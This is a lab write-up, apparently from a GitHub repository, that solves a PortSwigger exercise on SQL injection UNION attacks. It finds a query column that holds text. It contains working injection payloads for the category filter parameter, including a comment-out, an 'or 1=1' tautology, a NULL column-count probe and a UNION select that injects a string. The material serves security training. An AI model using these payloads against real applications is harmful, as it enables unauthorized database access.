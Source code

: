 

# SQL injection UNION attack, finding a column containing text

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data.

The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform a SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data.

---------------------------------------------

Reference: https://portswigger.net/web-security/sql-injection/union-attacks

---------------------------------------------

We see there are 2 values displayed in the table, the name and the price of the products:


<img width="1301" height="722" alt="1" src="https://github.com/user-attachments/assets/4f7b3f18-44aa-40d5-ab52-9c518c414a92" />



We find these payload are valid to display the 4 items in Pets and all the items:

```
/filter?category=Pets'--
/filter?category=Pets'+or+1=1--
```


<img width="1526" height="784" alt="2" src="https://github.com/user-attachments/assets/d1f6a2a7-5012-44c1-b43b-f4b1801eff18" />


Also, that there are 3 columns returned by the query and we can do a UNION attack with:

```
/filter?category=Pets'+union+all+select+NULL,NULL,NULL--
```


<img width="1522" height="807" alt="3" src="https://github.com/user-attachments/assets/a77d6d12-b21a-43db-9059-0b88ecf4a35d" />


We can print the string 2Ae75f setting this string in the second value of the attack:

```
/filter?category=Pets'+union+all+select+'0','2Ae75f','123'--
```


<img width="1517" height="800" alt="4" src="https://github.com/user-attachments/assets/d5c0dd5c-9558-4db3-9d6d-413c70553ed5" />

